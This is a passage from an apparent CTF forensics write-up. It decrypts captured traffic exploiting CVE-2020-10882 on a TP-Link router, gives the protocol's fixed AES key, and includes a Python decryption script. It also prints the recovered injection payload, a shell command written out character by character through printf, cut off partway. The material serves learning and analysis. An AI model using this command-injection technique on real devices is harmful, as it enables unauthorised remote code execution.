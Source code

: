 ### UDP port 20002

From a quick search on the internet, we find references to
[CVE-2020-10882](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-10882),
which coincidentally affects the router we are communicating with.

We were able to find
[this extremely useful writeup](https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo)
which explains the details of the protocol, and of the vulnerability which
causes RCE. TLDR (since it's what we care about): it communicates using packets
containing a 32-byte header and a JSON encrypted with AES-128 CBC, with the
fixed key `TPONEMESH_Kf!xn?` and IV `1234567890abcdef1234567890abcdef`.

Without knowing anything else about the protocol (except that the injection
point is in the slave_mac JSON key), we exported the UDP traffic from wireshark
as JSON and wrote this quick python script:

```python
from Crypto.Cipher import AES

def decrypt(packet_hex):
	c = AES.new(b'TPONEMESH_Kf!xn?',AES.MODE_CBC,b'1234567890abcdef')
	enc = bytearray.fromhex(packet_hex[32:])
	return c.decrypt(enc)


import json

f = json.loads(open("traffic.json").read())
for p in f:
	try:
		p = p['_source']['layers']['udp']['udp.payload'].replace(':',"") #because wireshark hexdump is stupid
		print(json.loads(decrypt(p))['data']['slave_mac'][2:-1])
	except Exception as e:
		pass
```

Which, after a bit of cleaning, this returned
```bash
echo>f;
printf '('>>f;
printf 'l'>>f;
printf 's'>>f;
printf ' '>>f;
printf '-'>>f;
printf 'l'>>f;
printf '&'>>f;
printf '&'>>f;
printf 'e'>>f;
printf 'c'>>f;
printf 'h'>>f;
printf 'o'>>f;
printf ' '>>f;
printf 'h'>>f;
printf 'i'>>f;
printf 't'>>f;
printf 'c'>>f;
printf 'o'>>f;
printf 'n'>>f;
printf '{'>>f;
printf 'W'>>f;
printf 'h'>>f;
printf 'y'>>f;
printf '_'>>f;
```